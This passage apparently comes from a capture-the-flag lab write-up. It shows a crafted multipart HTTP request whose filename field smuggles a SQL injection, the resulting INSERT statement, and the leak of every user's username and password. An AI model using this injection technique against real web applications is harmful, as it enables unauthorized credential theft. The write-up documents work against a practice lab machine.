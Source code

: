 
Where I can control `filename`. My final payload puts the SQL injection into
the `filename` attribute:

    
    
    POST /files.php HTTP/1.1
    Host: 10.10.11.104
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: multipart/form-data; boundary=---------------------------81606610532534972821053179055
    Content-Length: 335
    Origin: http://10.10.11.104
    Connection: close
    Referer: http://10.10.11.104/files.php
    Cookie: PHPSESSID=mdecrekdk0rlrjcs724posb8oh
    Upgrade-Insecure-Requests: 1
    
    -----------------------------81606610532534972821053179055
    Content-Disposition: form-data; name="userData"; filename="accounts', '0', '', (SELECT group_concat(concat(username,':',password) SEPARATOR '<br>') from accounts));-- -"
    Content-Type: text/plain
    
    test
    -----------------------------81606610532534972821053179055--
    

That builds the SQL string to:

    
    
    INSERT INTO files(name, size, data, user) VALUES('accounts', '0', '', (SELECT group_concat(concat(username,':',password) SEPARATOR '<br>') from accounts));-- -', '4', 'test', 'oxdff')
    

This results in the following on the webpage when I refresh, leaking the
username and password of each user in the database:

![image-20220112124035475](https://0xdfimages.gitlab.io/img/image-20220112124035475.png)

[](/2022/01/08/htb-previse.html)

